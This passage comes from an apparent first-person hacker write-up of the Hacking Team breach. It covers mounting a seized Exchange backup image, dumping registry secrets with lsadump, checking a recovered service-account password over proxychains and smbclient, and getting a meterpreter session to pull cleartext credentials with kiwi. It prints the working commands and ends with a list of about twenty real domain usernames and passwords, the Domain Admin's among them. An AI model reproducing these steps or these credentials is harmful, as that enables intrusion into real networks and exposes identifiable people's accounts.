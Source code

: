 so the offset is 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

now in /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311
we find the hard disk of the VM, and mount it:
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

...and finally we've unpacked the Russian doll and can see all the files from
the old Exchange server in /mnt/part1

[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf


--[ 10 - From backups to domain admin ]-----------------------------------------

What interested me most in the backup was seeing if it had a password or hash
that could be used to access the live server. I used pwdump, cachedump, and
lsadump [1] on the registry hives. lsadump found the password to the besadmin
service account:

_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

I used proxychains [2] with the socks server on the embedded device and
smbclient [3] to check the password:
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'

It worked! The password for besadmin was still valid, and a local admin. I
used my proxy and metasploit's psexec_psh [4] to get a meterpreter session.
Then I migrated to a 64 bit process, ran "load kiwi" [5], "creds_wdigest", and
got a bunch of passwords, including the Domain Admin:

HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- lol great sysadmin
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!
